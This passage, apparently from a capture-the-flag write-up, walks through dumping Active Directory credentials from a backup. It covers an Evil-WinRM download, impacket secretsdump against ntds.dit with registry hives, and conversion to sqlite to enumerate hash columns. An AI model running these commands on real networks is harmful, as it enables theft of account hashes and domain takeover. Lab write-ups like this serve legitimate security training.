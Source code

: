 ![NON](file-20250606014231428.png)

```bash
*Evil-WinRM* PS E:\Windows Server 2012 R2 - Backups\Users\Administrator\Documents> download Backup_Credentials.7z

Info: Downloading E:\Windows Server 2012 R2 - Backups\Users\Administrator\Documents\Backup_Credentials.7z to Backup_Credentials.7z

Info: Download successful!
*
```

Looking at the files extracted, we have the following registry hive files, `SYSTEM`, `SECURITY`, looking at the `Active Directory` folder we have the `ntds.dit` file, which is the Active Directory database file.

![NON](file-20250606145406519.png)

We can use the `secretsdump.py` tool from `impacket` to extract the hashes from the `ntds.dit` file.

```bash
secretsdump.py -security registry/SECURITY -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL
```

![NON](file-20250606145819880.png)

But none of these hashes were valid for login with the exception of the `d.anderson` user, which we already had access to.

The `ntds.dit` file contains much more information than just the hashes, it also contains the `Active Directory` structure, such as the users, groups, and their attributes. We can use the `ntdsdotsqlite` tool to extract this information from the `ntds.dit` file into a `sqlite` database format.

```bash
ntdsdotsqlite --system registry/SYSTEM -o ntds.sqlite Active\ Directory/ntds.dit
```

Looking at the `sqlite` database, we can enumerate the `user_accounts` table to see the users and their attributes.

```bash
sqlite3 ntds.sqlite

SQLite version 3.50.0 2025-05-29 14:26:00
Enter ".help" for usage hints.

sqlite> .tables
containers            groups                trusted_domains
domain_dns            machine_accounts      user_accounts
domains               organizational_units

sqlite> PRAGMA table_info(user_accounts);
0|id|INTEGER|0||1
1|encrypted_nthash|BLOB|0||0
2|nthash|TEXT|0||0
3|encrypted_lmhash|BLOB|0||0
4|lmhash|TEXT|0||0
5|UAC|INTEGER|0||0
6|description|TEXT|0||0
7|lastLogonTimestamp|INTEGER|0||0
8|pwdlastset|INTEGER|0||0
9|admincount|INTEGER|0||0
10|displayName|TEXT|0||0
11|GUID|TEXT|0||0
12|SID|TEXT|0||0
```